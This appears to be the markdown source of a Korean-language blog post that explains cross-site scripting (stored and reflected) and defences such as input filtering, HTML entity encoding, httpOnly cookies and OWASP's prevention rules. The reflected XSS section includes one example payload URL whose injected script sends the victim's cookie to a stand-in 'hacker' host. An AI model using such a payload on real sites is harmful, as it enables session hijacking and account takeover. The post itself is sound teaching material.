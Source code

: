```yaml
---
layout: post
title: 'XSS(Cross-Site Scripting)이란?'
date: 2021-11-08 09:29:20 +0700
categories: [Network]
tags: [Security]
description: XSS(Cross-Site Scripting) 이란 웹 애플리케이션에서 일어나는 취약점으로 관리자가 아닌 권한이 없는 사용자가 웹 사이트에 스크립트를 삽입하는 공격 기법입니다.
---
```


# XSS (Cross-Site Scripting)

XSS란 웹 앱에서 일어나는 취약점이다. 관리자가 아닌 권한이 없는 사용자가 웹 사이트에 스크립트를 삽입하는 공격 기법이다. 대부분 사용자가 글을 쓰고 읽을 수 있는 페이지에 많이 발생하지만, 사용자의 입력 값을 웹 페이지에 보여주는 곳에서도 발생한다.

주된 XSS 공격 중 하나는 사용자의 세션을 탈취하는 프로세스이다. 해커가 XSS 공격에 취약한 웹 사이트에 악의적인 스크립트를 삽입하고, 그 스크립트가 있는 게시글을 열람한 사용자는 악성 스크립트로 인해 본인의 쿠키가 해커에게 전송된다. 세션 ID가 포함된 쿠키를 탈취한 해커는 그 사용자의 계정으로 로그인하는 방식이다.

웹 애플리케이션 보안 연구재단(<a href="https://owasp.org/" target="_blank" rel="noopener">OWASP</a>)에 따르면

> 크로스 사이트 스크립팅(XSS)는 애플리케이션에서 브라우저로 전송하는 페이지에서 사용자가 입력하는 데이터를 검증하지 않거나, 출력시 위험 데이터를 무효화 시키지 않을 때 발생한다.

라고 정의하고 있다.

### 지속형 XSS 공격 (Persistent XSS)

<figure>
<img src="./../../images/network-xss1.png">
<figcaption>Fig 1. 지속형 XSS 공격</figcaption>
</figure>

지속형 XSS 공격은 XSS 공격 중 하나로, 지속적으로 피해를 입히는 XSS 공격이다. 해커는 웹 앱에서 XSS 취약점이 있는 곳을 파악한다. 예를 들면, HTML 요소를 조작하기 위해 DOM 메소드 중 `innerHTML`을 사용하는 경우가 있다. `innerHTML` 속성으로 DOM을 조작하는 경우, 값으로 HTML 태그를 입력하기 때문에 해커는 이 취약점을 노려 XSS 공격을 감행할 수 있다.

해커가 삽입한 스크립트는 데이터베이스에 저장되고, 저장된 악성 스크립트가 있는 게시글을 열람한 사용자는 이 악성 스크립트가 작동시키게 된다. 작동된 악성 스크립트로부터 사용자의 쿠키를 탈취할 수 있고, 또는 다른 사이트로 리다이렉트되도록 만들 수 있다. 데이터베이스에 이 악성 스크립트가 저장되어 지속적으로 공격한다고 하여 지속형 XSS 공격이라고 부른다. 또는, 데이터베이스에 저장된다하여 저장형 XSS 공격이라고도 부른다.

이 공격의 특징은 한 번의 공격으로 악성 스크립트를 삽입하여 큰 피해를 줄 수 있다는 점이다. 이 유형의 공격이 가장 많이 발생되는 곳은 게시판이며, 굳이 게시판이 아니더라도 사용자가 입력한 값이 데이터베이스에 저장이 되고, 저장된 값이 그대로 View로 보여주는 곳에 공격이 성공할 수 있다.

### 반사형 XSS 공격 (Reflected XSS)

<figure>
<img src="./../../images/network-xss2.png">
<figcaption>Fig 2. 반사형 XSS 공격</figcaption>
</figure>

반사형 XSS 공격은 사용자에게 입력받은 값을 서버에서 되돌려 주는 곳에서 발생한다. 사용자가 정보 검색을 위해 검색어를 입력하고 그에 따른 결과물을 보여주는 경우가 있다. 사용자가 입력한 값을 에러 메세지에 포함하여 보여주는 곳에 악성 스크립트가 삽입되면 서버가 사용자의 입력을 포함해 응답해줄 때 스크립트가 실행된다. 보통 반사형 XSS 공격은 공격자가 악의적인 스크립트와 함께 URL을 사용자에게 누르도록 유도한다. URL을 누른 사용자는 악의적인 스크립트가 실행되며 공격을 당하게 된다.

예를 들면, `GET` 요청으로 검색을 구현한 웹 앱에서 XSS 취약점을 확인한 해커는 아래와 같이 악성 스크립트를 삽입하여 요청을 날린다.

```
http://service.com?search=<script>location.href('http://hacker/cookie.php?value='+document.cookie);</script>
```

예시를 든 스크립트가 검색 인자가 되어 요청을 보낸다. 스크립트의 내용은 해커의 웹 페이지로 URL을 클릭한 사용자의 쿠키 값이 전송되도록 되어 있다. 링크를 클릭한 사용자는 자신의 의도와 상관 없이 자신의 쿠키 값을 전송하게 된다.

이는 스크립트가 서버에 저장되지 않고 즉시 스크립트를 실행한다. 이는 브라우저 자체적으로 차단하는 경우가 많아 저장형 XSS 공격에 비해 공격 성공률이 낮다.

# 대응 방안

1. 필터 사용

유저가 `input` 태그에 텍스트를 입력해야하는 경우, 이 때 필터를 적용할 수 있다. 개인이 만든 필터보다는 전문적인 보안 업체나 기업에서 만든 것이 공신력있고 편하게 사용할 수 있다. 주로 <a href="https://wiki.owasp.org/index.php/Category:OWASP_AntiSamy_Project" target="_blank" rel="noopener">OWASP Antisamy</a>가 있다.

예를 들면, 텍스트가 입력되어 서버로 요청하기 전에 검증을 하여 대응할 수 있다. `input` 태그에 만약 `<` 또는 `>` 같은 태그 문자(`<script>` 방지)를 입력했을 때 이를 필터링한다. 이 때 출력되는 값을 `<` 와 같은 태그 문자 대신 HTML 문자로 변환하여 출력한다. 이렇게 하면 `<` 문자는 `&lt;` 로 변경된다. 즉, HTML 문서는 `&lt;script&gt;` 로 인식하여 `<script>` 태그 속의 코드는 실행되지 않는다.

2. 쿠키 보안 옵션 사용

쿠키를 생성할 때 보안 옵션을 사용하여 웹 브라우저 상에서만 쓸 수 있도록 해야 한다. Node 환경에서 Express를 사용한다면, `httpOnly` 옵션을 쿠키에 지정하여 웹 브라우저상에서만 쿠키를 사용할 수 있다.

위 방안들과 별개로 웹 애플리케이션 보안 연구재단(OWASP)에서 XSS 공격을 방지하는 7계명을 발표했다.

### XSS 공격 방지 7계명

0. 허용된 위치가 아닌 곳에 신뢰할 수 없는 데이터가 들어가는 것을 허용하지 않는다.
1. 신뢰할 수 없는 데이터는 검증을 해야 한다.
2. HTML 속성에 신뢰할 수 없는 데이터가 들어갈 수 없도록 해야 한다.
3. 자바스크립트에 신뢰할 수 없는 값이 들어갈 수 없도록 해야 한다.
4. CSS의 모든 신뢰할 수 없는 값에 대해 검증해야 한다.
5. URL 파라미터에 신뢰할 수 없는 값이 있는지 검증해야 한다.
6. HTML 코드를 전체적으로 한 번 더 검증해야 한다.

### Reference

- <a href="https://owasp.org/" target="_blank" rel="noopener">웹 애플리케이션 보안 연구재단(OWASP)</a>
- <a href="https://wiki.owasp.org/index.php/Category:OWASP_AntiSamy_Project" target="_blank" rel="noopener">OWASP Antisamy</a>

